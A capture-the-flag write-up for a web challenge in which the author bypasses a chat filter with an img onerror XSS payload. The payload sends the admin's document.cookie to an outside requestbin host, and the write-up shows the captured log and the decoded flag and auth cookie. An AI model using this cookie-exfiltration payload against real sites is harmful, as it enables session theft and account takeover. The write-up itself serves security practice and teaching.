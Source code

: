 # Cookie World Order
Category: Web

## Description
> Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon. Funny they trust their security to a contractor outside their systems, especially one with such bad habits.  Upon further snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo. Go forth and attain greater access to reach this creature!
> 
> https://cwo-xss.web.ctfcompetition.com/ 

## Solution

We visit the website and get a livestream video of a cauliflower and a chat interface:
```html
<div class="livestream-container">
      <div class="livestream-video">
        <video loop autoplay muted src="/watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm" />
      </div>
      <div class="livestream-chat">
        <div class="livestream-chat-list">
          <div class="livestream-chat-item"> 
            <div class="livestream-chat-profile"> 
              <img src="/static/img/profile.png"> 
            </div> 
            <div class="livestream-chat-text"> 
              <div class="livestream-chat-username">Admin</div> 
              <div class="livestream-chat-message">Look at my beautiful garden!</div> 
            </div> 
          </div>
        </div>
        <div class="livestream-chat-input">
          <form id="livestream-chat-form">
            <input id="livestream-chat-input" autocomplete="off" type="text" placeholder="Send message..." />
          </form>
        </div>
      </div>
    </div>
```

"Admin" is online and obviously we need to use XSS to steal his cookie.

The server had a basic blacklist protection, so basic attempts returned an error message ("HACKER ALERT!"):
```console
root@kali:/media/sf_CTFs/google/Cookie_World_Order# curl "https://cwo-xss.web.ctfcompetition.com/send" -X POST --data "message=<img src=x onerror=alert('XSS');>"
{"message":"HACKER ALERT!","profile_url":"/static/img/profile.png","username":"brewtoot"}
```

However it was still possible to bypass the blacklist with a pretty simple input:
```console
root@kali:/media/sf_CTFs/google/Cookie_World_Order# curl "https://cwo-xss.web.ctfcompetition.com/send" -X POST --data "message=<img src=x onerror=\"image = new Image(); image.src='http://requestbin.fullcontact.com/187
nt201?e='+btoa(document.cookie);\">"
{"message":"<img src=x onerror=\"image = new Image(); image.src='http://requestbin.fullcontact.com/187nt201?e=' btoa(document.cookie);\">","profile_url":"/static/img/profile.png","username":"brewtoot"}
```

Our input is:
```html
<img src=x onerror="image = new Image(); image.src='http://requestbin.fullcontact.com/187nt201?e='+btoa(document.cookie);">
```

We create an image with a source that doesn't exist. Upon error, the browser will attempt run the `onerror` logic which will try to load a different image from our [Request Bin](http://requestbin.fullcontact.com) - a free service that logs every request it gets. We crafted the URI of the image to be composed of the session cookie, allowing us to steal it.

After a few seconds, we see the following log:

```
FORM/POST PARAMETERS
None
QUERYSTRING

e: ZmxhZz1DVEZ7M21icjRjM190aGVfYzAwazFlX3cwcjFkX29yZDNyfTsgYXV0aD1UVXRiOVBQQTljWWtmY1ZRV1l6eHk0WGJ0eUwzVk5Leg==

HEADERS
Connection: close
Via: 1.1 infra-squid (squid/3.5.27), 1.1 76d5d69c7419d6e5ee08d1a87f9d8316.cloudfront.net (CloudFront), 1.1 vegur
Connect-Time: 6
X-Amz-Cf-Id: nfX-upjniSvVOAW4bTZtDwh1y09THvQ6surh1W3A35VWb5ue6k6Iww==
Cloudfront-Viewer-Country: US
Cloudfront-Forwarded-Proto: http
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
Pragma: no-cache
Cache-Control: no-cache
Cloudfront-Is-Mobile-Viewer: false
Accept-Encoding: gzip, deflate
X-Request-Id: fc378cdb-cdd9-4edf-ae0b-29631278cead
Cloudfront-Is-Tablet-Viewer: false
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Cloudfront-Is-Desktop-Viewer: true
Host: requestbin.fullcontact.com
Total-Route-Time: 0
Cloudfront-Is-Smarttv-Viewer: false
```

We decode the base64 string and get the flag:
```console
root@kali:/media/sf_CTFs/google/Cookie_World_Order# echo ZmxhZz1DVEZ7M21icjRjM190aGVfYzAwazFlX3cwcjFkX29yZDNyfTsgYXV0aD1UVXRiOVBQQTljWWtmY1ZRV1l6eHk0WGJ0eUwzVk5Leg== | base64 -d
flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
```